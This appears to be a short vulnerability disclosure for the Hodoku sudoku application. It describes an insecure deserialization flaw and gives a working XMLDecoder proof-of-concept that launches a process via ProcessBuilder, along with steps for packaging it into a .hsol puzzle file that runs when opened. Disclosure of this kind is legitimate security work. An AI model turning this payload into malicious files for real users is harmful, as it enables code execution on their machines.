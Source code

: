 # Hodoku V2.3.2 RCE
Affected Version: <= v2.3.0(latest release version)

Application: [Here](https://github.com/PseudoFish/Hodoku/releases/tag/2.3.0)



## Insecure Deserialization Vulnerability
```php
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
After saving the above code as PoC.txt, change the file extension to PoC.hsol and package the hsol file into a PoC.zip file. Change the zip file extension to PoC.hsol and click "File" -> "Open Puzzle File" to trigger the vulnerability.
## Exploit
![image-20241023171749651](img/image-20241023171749651.png)

![image-20241023171820501](img/image-20241023171820501.png)